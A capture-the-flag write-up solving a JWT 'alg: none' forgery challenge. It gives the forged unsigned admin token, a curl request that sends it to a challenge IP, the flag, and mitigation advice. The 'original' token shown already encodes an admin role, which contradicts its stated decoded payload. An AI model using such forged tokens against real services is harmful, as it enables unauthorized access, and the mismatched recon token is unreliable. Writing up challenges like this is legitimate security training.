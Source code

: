 # 🔐 None Shall Pass – JWT alg: none Token Forgery

**Category:** Web Security  
**Points:** 200  
**Solves:** 418

---

### 🧠 Challenge Summary
We were given access to a token-protected intranet application that issues JWTs for authentication. The objective was to bypass the role-based access control protecting the `/secret` endpoint using a low-privilege account and escalate to `admin` by forging a token.

---

### 🎯 Objective
Exploit the JWT implementation to forge a token with `role: admin` and retrieve the flag from:
```
http://34.85.163.182:8080/secret
```

---

### 🛠️ Tools & Techniques Used
- Web browser (initial login)
- JWT token decoder (jwt.io)
- Manual Base64 crafting
- `curl` for HTTP request
- Token manipulation (`alg: none` bypass)

---

### 🔍 Recon – Analyzing the JWT
After logging in with:
```
Username: agent
Password: spudpotato
```
A JWT was displayed in the UI:
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ.<<signature>>
```
Decoded header:
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```
Decoded payload:
```json
{
  "user": "agent",
  "role": "user"
}
```
The algorithm used (`HS256`) implied HMAC. This presented a possible opportunity for a **JWT `alg: none`** vulnerability.

---

### 🧪 Exploitation – `alg: none` Forged JWT
Many misconfigured libraries accept tokens with `alg: none`, ignoring the signature entirely.

#### 1. Forge JWT Header:
```json
{
  "alg": "none",
  "typ": "JWT"
}
```
Base64:
```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0
```

#### 2. Forge JWT Payload:
```json
{
  "user": "agent",
  "role": "admin"
}
```
Base64:
```
eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ
```

#### 3. Final Token:
```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ.
```
(Note the token ends with a period to indicate no signature.)

---

### 🚀 Final Exploit Request
Sent request with forged token:
```bash
curl http://34.85.163.182:8080/secret \
  -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ."
```

---

### 🏁 Flag
```
C1{n0n3_4lg0_byp4ss}
```

---

### 🔒 Mitigation
- Enforce strict server-side checks for the `alg` field — only accept expected algorithms.
- Do not allow `alg: none` unless explicitly required (which is almost never the case).
- Use secure and up-to-date JWT libraries that prevent this misconfiguration.

---

